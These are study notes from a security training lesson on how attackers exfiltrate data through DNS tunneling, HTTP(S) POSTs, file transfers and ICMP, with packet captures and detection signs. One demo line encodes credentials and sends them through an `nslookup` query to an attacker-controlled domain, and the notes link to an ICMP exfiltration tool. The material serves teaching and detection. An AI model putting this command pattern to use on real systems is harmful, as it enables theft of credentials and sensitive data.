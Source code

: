 # 49. Explain Exfiltration Techniques

Trainer: Knox Hutchinson


## Introducing Attacker Exfiltration Techniques

- Learning goals
  - DNS tunneling exfiltration
  - HTTP exfiltration
  - file transfer
  - text-based protocols


## DNS Tunneling Exfiltration

- DNS exflitration overview
  - capturing with  Wireshark
  - pkt: src=10.10.21.16, dst=10.10.21.1, prot=DNS, info=Standard query 0xe4d1 A address
  - pkt: src=10.10.21.1, dst=10.10.21.16, prot=DNS, info=Standard query response 0xe4d1
    - L7: Domain Name System (response)
      - Queries: adservice.google.com: TYpe A, Class IN; Name = adservice.google.com
      - Answers
        - advervice.google.com: Type CNAME, class IN, cname pagedad46.l.doubleclick.net
        - pagead46.l.doubleclick.net: type A, class IN, addr 64.233.185.154
        - pagead46.l.doubleclick.net: type A, class IN, addr 64.233.185.155
        - ...
  - attacker
    - MitM attacks
    - malware in client to inset and send sensitive info
  - possible info exflitrated: username, password, file-shared locations, GPOs


- Demo: data exflitated by DNS queries
  - browsing https://www.base64encode.org: encode 'username=knox:password=cisco -> encode -> hex string abc
  - cmd: `nslookup abc.knoxsdata.com`
  - DNS query logged by attacker
  - decode the hex string abc back to username and password



## HTTP(S) Exfiltration

- HTTP(S) exfiltration overview
  - client able to access SQL DB
  - extract sensitive info from SQL DB, e.g., SELECT queries
  - convert the sensitive info into plan text, e.g., JSON, XML, etc.
  - using HTTP POST request to post the sensitive info to malicious web site
  - sign of data exfiltration: high volume of I/O, CPU utilization, or outbound data transmission


- Demo: HTTPS exfiltration
  - sensitive info embedded in encrypted payload
  - pkt: src=108.177.122.94, dst=10.10.21.16, prot=TLSv1.3, info=Application Data
    - L7: Transport Layer Security - TLSv1.3 Record Layer: Application Data PProtocol: http-over-tls
  - sign of exflitration: high volume of traffic w/ same src and dst



## Outbound File Transfers

- Outbound file transfer overview
  - email, ftp, etc. used to exfiltrate data
  - easiest way: sending data in nature
  - usually accessing shared files and database
  - malware in client
    - sending file to FTP, FTPS or SFTP servers
    - attaching file in emails
  - solution: AMP for endpoints, abnormal at NGFW


## Text-Based Protocols

- Text-based protocol overview
  - examples: ICMP, NTP, etc.
  - embedded sensitivity data in payload of protocol exchange
  - example script:
    - [ICMPExfil](https://github.com/martinoj2009/ICMPExfil)
    - sending w/ ICMP one character a time


## Recapping Exfiltration Techniques



